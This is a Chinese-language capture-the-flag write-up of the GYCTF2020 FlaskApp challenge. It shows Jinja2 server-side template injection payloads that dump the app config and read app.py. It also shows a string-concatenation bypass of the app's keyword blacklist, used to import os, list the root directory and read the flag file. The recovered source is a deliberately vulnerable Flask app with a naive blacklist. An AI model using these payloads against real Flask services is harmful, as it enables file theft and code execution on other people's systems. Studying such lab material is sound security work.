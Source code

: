 # [GYCTF2020]FlaskApp
![](<./img/Pasted image 20221221165258.png>)

---
首页长这样

![](<./img/Pasted image 20221221165318.png>)


```
/decode
```

![](<./img/Pasted image 20221221165420.png>)

```
/hint
```

![](<./img/Pasted image 20221221165508.png>)

---
先是扫目录，无果

编码页面无计可施，尝试在解码页面制造错误

尝试对`123`进行解码

跳转到了`Werkzeug`的调试页面

![](<./img/Pasted image 20221221165800.png>)

获取到了部分源码

大体上是`flask`的`SSTI`

![](<./img/Pasted image 20221221170818.png>)

![](<./img/Pasted image 20221221171012.png>)

```python
{{config}}
```
> 结果 ： &lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: True, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;s_e_c_r_e_t_k_e_y&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(seconds=43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;BOOTSTRAP_USE_MINIFIED&#39;: True, &#39;BOOTSTRAP_CDN_FORCE_SSL&#39;: False, &#39;BOOTSTRAP_QUERYSTRING_REVVING&#39;: True, &#39;BOOTSTRAP_SERVE_LOCAL&#39;: False, &#39;BOOTSTRAP_LOCAL_SUBDOMAIN&#39;: None}&gt;

emmm，`secret_key`看着没什么用，似乎没有什么有价值的信息

---
`url_for`可以使用，直接套出源码先
```python
{{url_for.__globals__['__builtins__']['open']('app.py','r').read()}}
```
> 结果 ： from flask import Flask,render_template_string from flask import render_template,request,flash,redirect,url_for from flask_wtf import FlaskForm from wtforms import StringField, SubmitField from wtforms.validators import DataRequired from flask_bootstrap import Bootstrap import base64 app = Flask(\_\_name\_\_) app.config\[&#39;SECRET_KEY&#39;\] = &#39;s_e_c_r_e_t_k_e_y&#39; bootstrap = Bootstrap(app) class NameForm(FlaskForm): text = StringField(&#39;BASE64加密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) class NameForm1(FlaskForm): text = StringField(&#39;BASE64解密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) def waf(str): black_list = \[&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;\*&#34;,&#34;?&#34;\] for x in black_list : if x in str.lower() : return 1 @app.route(&#39;/hint&#39;,methods=\[&#39;GET&#39;\]) def hint(): txt = &#34;失败乃成功之母！！&#34; return render_template(&#34;hint.html&#34;,txt = txt) @app.route(&#39;/&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def encode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64encode(text.encode()) tmp = &#34;结果 :{0}&#34;.format(str(text_decode.decode())) res = render_template_string(tmp) flash(tmp) return redirect(url_for(&#39;encode&#39;)) else : text = &#34;&#34; form = NameForm(text) return render_template(&#34;index.html&#34;,form = form ,method = &#34;加密&#34; ,img = &#34;flask.png&#34;) @app.route(&#39;/decode&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def decode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64decode(text.encode()) tmp = &#34;结果 ： {0}&#34;.format(text_decode.decode()) if waf(tmp) : flash(&#34;no no no !!&#34;) return redirect(url_for(&#39;decode&#39;)) res = render_template_string(tmp) flash( res ) return redirect(url_for(&#39;decode&#39;)) else : text = &#34;&#34; form = NameForm1(text) return render_template(&#34;index.html&#34;,form = form, method = &#34;解密&#34; , img = &#34;flask1.png&#34;) @app.route(&#39;/&lt;name&gt;&#39;,methods=\[&#39;GET&#39;\]) def not_found(name): return render_template(&#34;404.html&#34;,name = name) if \_\_name\_\_ == &#39;\_\_main\_\_&#39;: app.run(host=&#34;0.0.0.0&#34;, port=5000, debug=True)

```python
def waf(str):
	black_list = ["flag","os","system","popen","import","eval","chr","request", "subprocess","commands","socket","hex","base64","*","?"]
	for x in black_list:
		if x in str.lower():
			return 1
```

`waf`是直接的字符串匹配

直接拼接绕过

```python
{{url_for.__globals__['__builtins__']['__im'+'port__']('o'+'s').listdir('/')}}
```
>[&#39;bin&#39;, &#39;boot&#39;, &#39;dev&#39;, &#39;etc&#39;, &#39;home&#39;, &#39;lib&#39;, &#39;lib64&#39;, &#39;media&#39;, &#39;mnt&#39;, &#39;opt&#39;, &#39;proc&#39;, &#39;root&#39;, &#39;run&#39;, &#39;sbin&#39;, &#39;srv&#39;, &#39;sys&#39;, &#39;tmp&#39;, &#39;usr&#39;, &#39;var&#39;, &#39;this_is_the_flag.txt&#39;, &#39;.dockerenv&#39;, &#39;app&#39;\]

```python
{{url_for.__globals__['__builtins__']['open']('/this_is_the_fl'+'ag.txt','r').read()}}
```

![](<./img/Pasted image 20221221194819.png>)

#Web #python #flask #SSTI #function #代码审计 